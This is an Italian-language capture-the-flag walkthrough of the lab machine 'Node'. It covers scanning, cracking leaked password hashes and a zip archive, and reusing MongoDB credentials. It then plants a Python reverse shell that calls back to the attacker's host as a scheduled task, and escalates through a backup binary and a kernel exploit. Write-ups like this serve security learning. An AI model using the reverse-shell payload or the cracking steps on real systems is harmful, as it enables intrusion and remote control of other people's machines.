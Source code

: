 # Node

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.58
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Il risultato della scansione è il seguente:

```text
Nmap scan report for 10.10.10.58
Host is up (0.061s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
22/tcp   open  ssh                OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
|   256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
|_  256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (ED25519)
3000/tcp open  hadoop-tasktracker Apache Hadoop
| hadoop-tasktracker-info:
|_  Logs: /login
|_http-title: MyPlace
| hadoop-datanode-info:
|_  Logs: /login
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: HP P2000 G3 NAS device (91%), Linux 2.6.32 (89%), Android 4.1.1 (89%), Linux 3.10 - 4.11 (89%), Linux 3.12 (89%), Linux 3.13 (89%), Linux 3.13 or 4.2 (89%), Linux 3.16 (89%), Linux 3.16 - 4.6 (89%), Linux 3.18 (89%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

Innanzitutto, vedo cosa c'è sulla porta 3000:

<p align="center">
  <img src="/Immagini/Linux-Box/Node/node-1.png" />
</p>

Ispezionando la pagina sorgente trovo questo:

```text
<script type="text/javascript" src="vendor/jquery/jquery.min.js"></script>
<script type="text/javascript" src="vendor/bootstrap/js/bootstrap.min.js"></script>
<script type="text/javascript" src="vendor/angular/angular.min.js"></script>
<script type="text/javascript" src="vendor/angular/angular-route.min.js"></script>
<script type="text/javascript" src="assets/js/app/app.js"></script>
<script type="text/javascript" src="assets/js/app/controllers/home.js"></script>
<script type="text/javascript" src="assets/js/app/controllers/login.js"></script>
<script type="text/javascript" src="assets/js/app/controllers/admin.js"></script>
<script type="text/javascript" src="assets/js/app/controllers/profile.js"></script>
<script type="text/javascript" src="assets/js/misc/freelancer.min.js"></script>
```

La pagina http://10.10.10.58:3000/assets/js/app/controllers/home.js risulta essere interessante:

```text
var controllers = angular.module('controllers');

controllers.controller('HomeCtrl', function ($scope, $http) {
  $http.get('/api/users/latest').then(function (res) {
    $scope.users = res.data;
  });
});
```

Visito quindi la pagina http://10.10.10.58:3000/api/users/:

<p align="center">
  <img src="/Immagini/Linux-Box/Node/node-2.png" />
</p>

Provo ad utilizzare dei tool online per crackare le password:

<p align="center">
  <img src="/Immagini/Linux-Box/Node/node-3.png" />
</p>

Così scopro le seguenti password:
  * tom: **spongebob**
  * mark: **snowflake**
  * myP14ceAdm1nAcc0uNT: **manchester**

Provo ad entrare con l'account _myP14ceAdm1nAcc0uNT_:

<p align="center">
  <img src="/Immagini/Linux-Box/Node/node-4.png" />
</p>

Scarico il file di backup e provo a decodificarlo nel seguente modo:

```text
cat myplace.backup | base64 --decode > myplace-decoded.backup
```

Il risultato è un file zip protetto da una password. Provo ad utilizzare quindi il comando _fcrackzip_:

```text
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt myplace-decoded.backup
```

La password del file è **magicword**!

Dopo aver passato del tempo ad ispezionare i file ottenuti, scopro le credenziali dell'utente _mark_ nel file _app.js_:

```text
const url = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
```

## Exploitation

Provo ad accedere tramite ssh con le credeniali appena ottenute:

<p align="center">
  <img src="/Immagini/Linux-Box/Node/node-5.png" />
</p>

Sono dentro ma non ho i premessi per leggere il file user.txt. Quindi trasferisco il file _LinEnum.sh_ attraverso un server http ed avvio lo script.

Dal risultato della scansione emerge la presenza di mongodb sulla porta 27017. Provo quindi ad accedere al db utilizzando le credenziali dell'utente _mark_:

```text
mongo -u mark -p 5AYRft73VtFpc84k localhost:27017/scheduler
```
**Riesco ad accedere!**

Scopro che esiste una collezione chiamata scheduler e che posso aggiungere un task contenente una reverse shell:

```text
db.tasks.insert({cmd: "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.11\",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"})
```

Avvio quindi avvio un listener e ottengo la shell:

<p align="center">
  <img src="/Immagini/Linux-Box/Node/node-6.png" />
</p>

## Privilege Escalation

Ora bisogna capire come diventare root.

Lanciando il comando _id_ ottengo il seguente output:

```text
uid=1000(tom) gid=1000(tom) groups=1000(tom),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),115(lpadmin),116(sambashare),1002(admin)
```

Quindi ritorno sul risultato dello script _LinEnum_ e scopro che c'è un file che potrebbe essere sfruttato, ovvero _/bin/usr/bin/backup_. Inoltre, all'interno del file _/var/www/myplace/app.js_ scopro delle informazioni interessanti:

```text
[...]
const backup_key  = '45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d023016710
4d474';
[...]
app.get('/api/admin/backup', function (req, res) {
    if (req.session.user && req.session.user.is_admin) {
      var proc = spawn('/usr/local/bin/backup', ['-q', backup_key, __dirname ]);
[...]
```

La prima è la chiave _backup_key_ e la seconda è il modo attraverso il quale è possibile lanciare il file backup.

Provo quindi ad eseguire questo comando:

```text
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /tmp > backup_test.txt
```

Il risultato è una stringa in base 64, quindi provo a fare la decodifica:

```text
cat backup_test.txt | base64 --decode > backup_test_decoded.txt
```

Ottengo un file zip e provo ad estrarne il contenuto:

```text
Archive:  test-decoded
   creating: tmp/
   creating: tmp/systemd-private-668dc95e5f5945b897532b0ae5e207b1-systemd-timesyncd.service-CwnioT/
   creating: tmp/systemd-private-668dc95e5f5945b897532b0ae5e207b1-systemd-timesyncd.service-CwnioT/tmp/
[test-decoded] tmp/test password:
 extracting: tmp/test                
   creating: tmp/.Test-unix/
  inflating: tmp/LinEnum.sh          
   creating: tmp/.XIM-unix/
   creating: tmp/vmware-root/
   creating: tmp/.X11-unix/
   creating: tmp/.ICE-unix/
   creating: tmp/.font-unix/
  inflating: tmp/pspy64
```

Provo ad effettuare la decodifica:

```text
/usr/local/bin/backup -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474 /root > backup_root.txt
```

```text
cat backup_root.txt | base64 --decode > backup_root_decoded.txt
```

Passo il file sulla mia macchina e utilizzo _7z_, ottenendo questo:

<p align="center">
  <img src="/Immagini/Linux-Box/Node/node-7.png" />
</p>

<p align="center">
  .........................................................................
</p>

Prima di andare avanti su questa strada provo a fare un check sulla versione del kernel in uso e scopro, tramite _searchsploit_, che è vulnerabile ed è possibile effettuare privilage escalation.

Scarico il file e lo trasferisco alla macchina node. Seguo i passaggi e divento root!

<p align="center">
  <img src="/Immagini/Linux-Box/Node/node-8.png" />
</p>
